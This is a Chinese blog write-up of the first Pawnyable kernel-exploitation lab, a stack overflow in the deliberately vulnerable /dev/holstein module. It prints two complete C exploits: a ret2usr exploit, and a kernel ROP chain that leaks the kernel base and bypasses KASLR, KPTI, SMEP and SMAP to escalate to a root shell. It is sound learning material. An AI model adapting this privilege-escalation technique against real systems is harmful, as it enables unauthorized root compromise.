



## 前言
笔者最近在学习Linux kernel的知识，意外发现了Pawnyable这个很不错的项目，原项目[链接](https://pawnyable.cafe/linux-kernel/)，笔者在此整理自己学习并复现本项目的过程以及相关的思考。
Pwanyable项目共有10个专题，分别介绍10种不同的内核漏洞及其利用方法，原作者为每个专题都提供了对应的带有漏洞的附件来供学习。

| 漏洞虚拟机环境     | 专题                 |
|--------------------|----------------------|
| LK01: Holstein v1  | 栈溢出                   |
| LK01-2: Holstein v2| 堆溢出                   |
| LK01-3: Holstein v3| UAF                     |
| LK01-4: Holstein v4| 竞态条件                 |
| LK02: Angus        | NULL Pointer Dereference|
| LK03: Dexter       | Double Fetch            |
| LK04: Fleckvieh    | 滥用userfaultfd          |
| LK04: Fleckvieh    | 滥用FUSE                 | 
| LK05: Highland     | 作者尚未发布               | 
| LK06: Brahman      | eBPF相关漏洞利用         |

本篇博客为第一个专题。对应内核栈溢出的漏洞专题。因为是第一个专题，笔者这里将基础的内核pwn漏洞模块调试方法以及拿到附件后都要做些什么工作来分析都简单介绍下。
Pawnyable项目的每个专题附件包括qemu和src两个文件夹，其中qemu文件夹为调试文件夹，相当于CTF比赛分发给选手的文件，src文件夹为漏洞模块的源码，包括下面三个文件：Makefile vuln.c vuln.ko，为内核加载的带有漏洞的ko模块的源码及其编译产物。

## 题目分析
原始题目所有保护均没有开。
直接拖出vuln.ko逆向一下看看

注册设备/dev/holstein

open函数初始化一个1024大小的堆块

read函数将g_buf中内容的前128字节复制到栈数组中，并通过copy_to_user写入用户空间内存，这里复制到用户空间内存的size为用户自定义的，存在内核栈上的越界读取

write函数将用户空间内存数据写入内核栈，size同样由用户传入，存在内核栈溢出漏洞。

## 攻击思路
根据逆向分析，我们有内核栈上的越界读漏洞可以泄露信息，有内核栈溢出漏洞可以打rop，而且此程序所有保护都没开，可以直接打ret2usr
攻击脚本如下：
```C
/**
 * @file exp.c
 * @author keyboard (keyboardhitsz@163.com)
 * @brief keyboard's kernel pwn exp
 * @version 0.0
 * @date 2025-11-27
 * 
 * @copyright Copyright (c) 2025 keyboard
 * 
 */
# include</home/keyboard/ctf/tricks/kernelpwn.h>

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t prepare_kernel_cred,commit_creds;
/**
 * Utils 
 */
void get_kallsyms_addr(){

    FILE* sym_table_fd = fopen("/proc/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }
}


/**
 * Challenge Interface
**/


/**
 * Exploitation
**/
void ret2usr_func(void)
{
    
    size_t prepare_kernel_cred = 0xffffffff8106e240;
    size_t commit_creds = 0xffffffff8106e390;
    get_root_privilige(prepare_kernel_cred,commit_creds);
}
void exploitation(void){

    int fd;
    size_t swapgs_ret = 0xffffffff8160bf7e, popfq_ret=0xffffffff81022751,iretq_pop_rbp=0xffffffff810202af;
    bind_core(0);
    save_status();
    fd = open("/dev/holstein", O_RDWR);
    if(fd < 0) {
        log_error("[x] Failed to open the /proc/core !");
        exit(EXIT_FAILURE);
    }
    log_info("Trigger the stack overflow\n");
    size_t rop[0x100];
    uint8_t idx=128;
    rop[idx++] = 0;
    rop[idx++] = ret2usr_func;
    rop[idx++] = swapgs_ret;
    rop[idx++] = iretq_pop_rbp;
    rop[idx++] = get_root_shell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp+8;
    rop[idx++] = user_ss;
    write(fd,rop,0x500);

}

/**
 * Main Function
 */
int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```

我们这里所有要用的地址都是已知的，所以只利用了栈溢出就打通了，接下来我们把内核保护都加上

## +kaslr+kpti+smep+smap

修改qemu启动脚本添加保护
```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 64M \
    -nographic \
    -kernel bzImage \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti kaslr" \
    -no-reboot \
    -cpu kvm64,+smep,+smap\
    -smp 1 \
    -monitor /dev/null \
    -initrd rootfs.cpio \
    -net nic,model=virtio \
    -net user \
    -s

```
### 绕过思路：
- 绕过kaslr：借助越界读漏洞泄露内核函数地址，反推内核基址
- 绕过kpti：借助swapgs_restore_regs_and_return_to_usermode gadget
- 绕过smep、smap：ret2usr失效，改为完全在内核栈上打KROP

最终在内核保护全开下完成利用，完整攻击脚本：
```C
/**
 * @file exp.c
 * @author keyboard (keyboardhitsz@163.com)
 * @brief keyboard's kernel pwn exp
 * @version 0.0
 * @date 2025-11-27
 * 
 * @copyright Copyright (c) 2025 keyboard
 * 
 */
# include</home/keyboard/ctf/tricks/kernelpwn.h>

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t prepare_kernel_cred,commit_creds;
/**
 * Utils 
 */
void get_kallsyms_addr(){

    FILE* sym_table_fd = fopen("/proc/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }
}


/**
 * Challenge Interface
**/


/**
 * Exploitation
**/

void exploitation(void){

    int fd;
    size_t buf[0x100];
    bind_core(0);

    save_status();
    fd = open("/dev/holstein", O_RDWR);
    if(fd < 0) {
        log_error("[x] Failed to open the /proc/core !");
        exit(EXIT_FAILURE);
    }
    read(fd,buf,0x500);
    kernel_base= buf[129]-0x13d33c;
    kernel_offset = kernel_base-0xffffffff81000000;
    printf("kernel base is %p\n",buf[129]-0x13d33c);
    printf("kernel offset is %p\n",kernel_offset);
    
    size_t swapgs_restore_regs_and_return_to_usermode=kernel_offset+0xffffffff81800e10+0x16;
    size_t pop_rdi=kernel_offset+0xffffffff8127bbdc;
    size_t mov_rdi_rax = kernel_offset+0xffffffff8160c96b;
    size_t pop_rcx=kernel_offset+0xffffffff812ac83f;
    size_t prepare_kernel_cred =kernel_offset+ 0xffffffff8106e240;
    size_t commit_creds =kernel_offset+ 0xffffffff8106e390;
    log_info("Trigger the stack overflow\n");
    size_t rop[0x100];
    uint8_t idx=128;
    rop[idx++] = 0;
    rop[idx++] = pop_rdi;
    rop[idx++] = 0;
    rop[idx++] = prepare_kernel_cred;
    rop[idx++] = pop_rcx;
    rop[idx++] = 0;
    rop[idx++] = mov_rdi_rax;
    rop[idx++] = commit_creds;
    rop[idx++] = swapgs_restore_regs_and_return_to_usermode;
    rop[idx++] = 0;
    rop[idx++] = 0;
    rop[idx++] = get_root_shell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp+8;
    rop[idx++] = user_ss;
    write(fd,rop,0x500);

}

/**
 * Main Function
 */
int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```